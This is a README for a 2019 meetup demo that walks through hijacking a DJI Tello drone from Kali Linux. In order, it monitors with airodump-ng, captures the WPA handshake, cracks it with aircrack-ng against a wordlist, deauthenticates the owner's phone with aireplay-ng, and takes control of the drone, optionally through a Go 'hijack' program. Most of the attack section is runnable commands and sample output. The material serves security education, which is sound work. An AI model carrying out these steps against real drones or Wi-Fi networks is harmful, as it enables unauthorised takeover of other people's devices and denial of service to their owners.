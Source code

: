 # Girl Geek Dinners Oslo drone hacking demo code
Demo code and presentation for Girl Geek Dinners in Oslo February 4th 2019.

## Preparations

You need:

1. A laptop with Kali Linux
2. A network adapter that supports packet injection
3. A mobile phone with the Tello app

This github repo contains some files that will help you in the demo, but it is not a prerequisite to download it.

In order to program the drone (if you want that, this is optional) you'll need the Go programming language and the Gobot framework (https://gobot.io):

```
git clone https://github.com/transcendent-group/ggd.git
apt install golang
cd ggd
go get -d -u gobot.io/x/gobot/...
```

## Demo walkthrough

### Step 1: Sniff and find the drone’s WiFi network

Begin by listing wireless interfaces that support monitor mode with:

```
airmon-ng
```

If you do not see an interface listed then your wireless card does not support monitor mode.

If it does, make sure that other interfering processes are killed, you should see output similar to this:

```
root@kali:~/ggd# airmon-ng check kill

Killing these processes:

  PID Name
  868 wpa_supplicant
```

Then list out the wireless interfaces you have with `iwconfig, you should see output similar to this:

```
root@kali:~/ggd# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

We will assume your wireless interface name is `wlan0`:

```
airmon-ng start wlan0
```

This may create a new interface that is named something else, so be sure to check with `iwconfig` to use the correct interface name for the rest of the demo.

Then scan the networks:

```
root@kali:~/ggd# airodump-ng wlan0

 CH  3 ][ Elapsed: 1 min ][ 2019-02-03 09:50                                       
                                                                                                                                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                             
 70:85:C6:9C:BC:3E   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 D8:FE:E3:DD:5F:8A   -1   0        0        0    0   3  -1                    <length:  0>                                                                   
 60:60:1F:D4:21:28  -18 100      266    29646   47   3  54e. WPA2 CCMP   PSK  TELLO-D42128                                                                   
 80:37:73:BD:B5:42  -80   0        0        1    0   3  -1   WPA              <length:  0>                                                                    
 08:86:3B:B9:53:CA   -1   0        0        0    0   3  -1                    <length:  0>                                                                    
                                                                    
                                                                                                                                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                    
                                                                                                                                                                                                                                         
 60:60:1F:D4:21:28  D4:61:9D:EE:49:2F  -32   54e-54e  5993    30022  TELLO-D42128                                                                                              
```

Look for the network called `TELLO-D42128`, and make note of the `BSSID` (the Tello drone wifi access point MAC address), channel number and `STATION` (the controller's MAC address):
 In the above, these are:

* WiFi channel: `3`
* Tello drone MAC address: `60:60:1F:D4:21:28`
* Controller (iPhone) MAC address: `D4:61:9D:EE:49:2F`

### Step 2: Capture a handshake

Stop listening on all channels, and set the right channel:

```
airmon-ng stop wlan0
airmon-ng start wlan0 3
```

Sniff the airwaves for a handshake:

```
airodump-ng -c 3 -b 60:60:1F:D4:21:28 -w ggd wlan0
```

You should see a that a WPA handshake has been captured after a while in the right topmost corner of the terminal window:

```
CH  8 ][ Elapsed: 12 s ][ 2019-02-03 10:03 ][ WPA handshake: 60:60:1F:D4:21:28  
```

### Step 3: Crack the handshake and obtain WiFi password

```
aircrack-ng ggd-01.cap -w passwords.txt
```

### Step 4: Deauthenticate me

Deauthenticate the iPhone controller:

```
aireplay-ng --deauth 0 -a 60:60:1F:D4:21:28 -c D4:61:9D:EE:49:2F wlan0
```

### Step 5: Hijack the drone!

Keep the above command running, and connect to the `TELLO-D42128` network with the password from step 3. Start the Tello app on your phone, and takeoff!

### Step 6 (optional): Connect to the drone from you laptop and do some sweet flips

Open a text editor and insert the correct password in the `wpa_supplicant.conf` file.

Then disable monitor mode, and start wpa_supplicant:

```
airmon-ng stop wlan0
wpa_supplicant -i wlan0 -c wpa_supplicant.conf -D nl80211
```

In another terminal window check that you are connected, and ask for an IP:

```
iwconfig
dhclient wlan0
```

Then compile and run:

```
go build hijack.go
./hijack
```




